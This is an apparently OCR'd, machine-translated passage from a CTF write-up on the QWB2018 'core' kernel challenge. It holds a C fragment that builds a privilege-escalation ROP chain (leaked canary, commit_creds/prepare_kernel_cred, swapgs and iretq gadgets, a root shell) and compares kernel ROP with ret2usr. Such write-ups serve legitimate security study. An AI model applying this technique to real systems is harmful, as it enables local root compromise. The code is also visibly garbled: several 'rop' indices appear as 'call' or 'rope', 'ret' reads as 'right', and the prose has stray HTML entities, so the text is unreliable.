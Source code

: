 ```C
	size_t rop[0x30] = {0};

	rop[8] = canary ; 

	rop[10] = (size_t)get_root;

call [11] = 0xffffffff81a012da + offset; // swapgs; popfq; right
rope [12] = 0;
call [13] = 0xffffffff81050ac2 + offset; // iretq; right;
	rop[14] = (size_t)get_shell; 

	rop[15] = user_cs;

	rop[16] = user_rflags;

	rop[17] = user_sp;

	rop[18] = user_ss;



	puts("[*] DEBUG: ");

	getchar();

	write(fd, rop, 0x30 * 8);

	core_copy_func(fd, 0xffffffffffff0000 | (0x100));

}

```

Compare the similarities and differences between [kernel rop] (https://github.com/bash-c/pwn_repo/blob/master/QWB2018_core/rop.c).


1. Get `commit_creds` and `prepare_kernel_cred` by reading `/tmp/kallsyms`, and determine the address of the gadget based on these offsets.
2. The method of leak canary is the same, and the canary is read by controlling the global variable `off`.
3. Unlike the kernel rop approach, the construction of the rop chain
1. The kernel rop reaches the execution of `commit_creds(prepare_kernel_cred(0))` by the rop chain of the kernel space, and then returns to the user mode through `swapgs; iretq`, etc., and executes the `system(&quot;/bin/ of the user space. Sh&quot;)` Get the shell
2. In the ret2usr approach, return directly to the user space constructor&#39;s `commit_creds(prepare_kernel_cred(0))` (implemented by function pointer) to raise the weight. Although these two functions are in kernel space, we are `ring 0` at this time. Privileges, so it works fine. Then also pass `swapgs; iretq` back to the user mode to execute the user space `system(&quot;/bin/sh&quot;)`


A comparison of these two approaches can be seen as the reason for `ret2usr` because it is generally much simpler to construct a specific purpose code in user space than in kernel space.



